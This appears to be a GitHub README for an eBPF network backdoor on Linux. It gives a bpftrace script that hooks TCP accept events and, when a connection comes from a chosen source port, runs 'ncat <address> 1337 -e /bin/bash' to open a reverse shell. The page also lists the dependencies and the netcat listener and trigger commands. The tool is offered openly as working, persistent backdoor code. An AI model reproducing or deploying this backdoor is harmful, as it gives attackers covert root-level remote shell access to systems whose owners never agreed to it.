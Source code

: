 # eBPF Network Backdoor Implementation

A sophisticated implementation of a network backdoor utilizing eBPF technology to monitor TCP connections and establish reverse shells under specific conditions.

## Table of Contents

* [Overview](#overview)
* [Features](#features)
* [Requirements](#requirements)
* [Installation](#installation)
* [Usage](#usage)
* [Technical Details](#technical-details)
* [Security Considerations](#security-considerations)

## Overview

This project demonstrates advanced Linux kernel manipulation techniques using eBPF to create a persistent network monitoring system. The implementation focuses on intercepting TCP accept events and establishing reverse shell connections based on predefined port configurations.

## Features

* Real-time TCP connection monitoring
* Port-specific filtering mechanism
* Automatic reverse shell establishment
* IPv4 protocol support
* System-level integration

## Requirements

* Linux kernel with eBPF support
* Root privileges for installation
* Netcat (ncat) utility
* BCC tools for eBPF compilation

# Install dependencies
sudo apt-get update
sudo apt-get install -y bcc-tools netcat
```

## Usage

### Server Side (Listener)
```bash
nc -l -p 1337 -s 0.0.0.0 -vv
```

### Client Connection
```bash
nc 127.0.0.1 22 -p 9999
```

## Technical Details

The implementation consists of two main components:

1. **Initialization Section**
   ```awk
   BEGIN {
       printf("eBPF Backdoor. Hit Ctrl-C to end.\n");
       printf("Allowed source port: %u\n", $1);
   }
   ```

2. **Connection Monitoring**
   ```awk
   kretprobe:inet_csk_accept {
       $sk = (struct sock *)retval;
       $inet_family = $sk->__sk_common.skc_family;
       
       if ($inet_family != AF_INET) {
           return;
       }
   
       $dport = $sk->__sk_common.skc_dport;
       $src_port = (( $dport >> 8) | (($dport << 8) & 0x00FF00));
   
       if ($src_port != $1) {
           return;
       }
   
       $daddr = ntop($sk->__sk_common.skc_daddr);
       time("%H:%M:%S ");
       printf("Got connection from %s on allowed port\n", $daddr);
       system("ncat %s 1337 -e /bin/bash\n", $daddr);
   }
   ```

## Security Considerations

* This implementation requires root privileges to operate
* The backdoor listens on port 1337 for reverse shell connections
* Only IPv4 connections are monitored
* Port filtering is implemented for security control
* System logs may contain evidence of operation

## License

[MIT License](LICENSE)

![Image](https://github.com/user-attachments/assets/624b7ca1-9ca7-484d-afb3-bcde0d1642aa)
